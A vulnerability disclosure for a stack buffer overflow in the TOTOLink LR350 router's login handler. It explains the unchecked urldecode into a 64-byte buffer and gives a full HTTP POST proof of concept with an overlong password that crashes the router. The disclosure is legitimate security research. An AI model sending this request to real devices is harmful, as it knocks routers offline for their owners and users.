

# TOTOLink Vulnerability

Vendor:TOTOLink 

Product:LR350

Version:V9.3.5u.6369_B20220309(https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/231/ids/36.html)

Vulnerability Type: Stack Overflow

Author:Chuanhao Wan

Mail:chuanhaowan@hust.edu.cn

Institution:Huazhong University of Science and Technology(HUST)


## Vulnerability cause

In the sub_426EF8 function, the password parameter is obtained via websGetVar(Object, "password", (int)&byte_431160) and passed to the urldecode function for decoding. The urldecode function stores the decoded input in the target buffer v36, but does not restrict the length of the input v7 (i.e., password). The urldecode function uses a pointer v3 (pointing to v36) to write decoded data byte by byte, with v4 (a counter) controlling the position of the null terminator, ultimately writing a null character at a2[v4 - 1] = 0. The target buffer v36 is a fixed-size array (_BYTE v36[64]), and the call to urldecode(v7, v36) is executed unconditionally. When the password parameter is excessively long (exceeding 63 bytes, accounting for the null terminator), urldecode can trigger a buffer overflow, overwriting adjacent stack data or the return address, resulting in a Denial of Service (DoS) attack.

<div  align="center"></div>

<div  align="center"></div>

## PoC

In order to reproduce the vulnerability, the following steps can be followed:

1.Boot the firmware by qemu-system or other ways (real machine)

2.Attack with the following POC attacks


```
POST /cgi-bin/cstecgi.cgi HTTP/1.1

Host: 192.168.6.15

Content-Length: 552

X-Requested-With: XMLHttpRequest

Accept-Language: en-US,en;q=0.9

Accept: application/json, text/javascript, */*; q=0.01

Content-Type: application/x-www-form-urlencoded; charset=UTF-8

User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36

Origin: http://192.168.6.15

Referer: http://192.168.6.15/phone/login.html

Accept-Encoding: gzip, deflate, br

Connection: close


{"password":"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA",

"topicurl":"loginAuth"}
```


## Result

The target router crashes and cannot provide services correctly and persistently.

<div  align="center"></div>